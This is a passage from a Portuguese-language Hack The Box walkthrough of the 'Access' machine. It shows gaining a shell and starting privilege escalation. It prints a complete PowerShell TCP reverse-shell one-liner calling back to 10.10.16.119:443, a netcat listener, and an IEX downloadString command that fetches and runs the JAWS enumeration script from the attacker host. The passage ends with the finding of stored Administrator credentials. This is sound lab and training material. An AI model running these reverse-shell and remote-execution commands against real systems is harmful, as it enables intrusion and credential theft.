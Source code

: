 ![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-access/A_nis1.png)

Irei utilizar o Invoke-PowerShellTcpOneLine.ps1, mas qualquer um aqui daria certo (usei ele por simplicidade)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-access/A_nis2.png)

> powershell -command "$client = New-Object System.Net.Sockets.TCPClient('10.10.16.119',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

#### Recebendo Reverse Shell

Abro o rlwrap nc, executo o comando e recebo a shell

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-access/A_rev.png)

# Escalação de privilégio

Iremos demonstrar diferentes tipos de escalação privilégio na máquina

## 1º Modo - JAWS

Por ser uma máquina fácil, temos vários modos de escalar privilégio nela, uma delas vamos rodar um script chamada `JAWS`

> https://github.com/411Hall/JAWS

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-access/A_jaws.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-access/A_jaws1.png)

Executamos ele na máquina

1. Fazemos o download dele

> wget https://raw.githubusercontent.com/411Hall/JAWS/master/jaws-enum.ps1

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-access/A_jaws2.png)

2. Levantamos um Python Web Server na máquina e na Máquina Access Executamos ele

> IEX(New-Object Net.WebClient).downloadString('http://10.10.16.119/jaws-enum.ps1') > enum.txt

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-access/A_jaws3.png)

3. Verificando os resultados

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-access/A_jaws5.png)

Opa, temos credenciais de Administrator salvas no sistema
